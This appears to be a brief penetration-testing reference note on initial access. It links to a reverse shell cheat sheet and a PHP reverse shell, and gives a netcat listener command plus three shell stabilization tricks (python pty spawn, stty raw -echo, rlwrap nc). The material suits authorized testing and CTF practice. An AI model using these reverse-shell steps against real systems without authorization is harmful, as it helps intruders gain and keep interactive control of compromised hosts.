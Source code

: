 # Initial Access

## Reverse Shell
* [Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)
* [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Listener:
```sh
nc -lvnp 4444
```

## Shell Stabilization

### Option 1
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
```

### Option 2
`ctrl + z` then
```sh
stty raw -echo && fg
```

### Option 3
```sh
rlwrap nc -lvnp 4444
```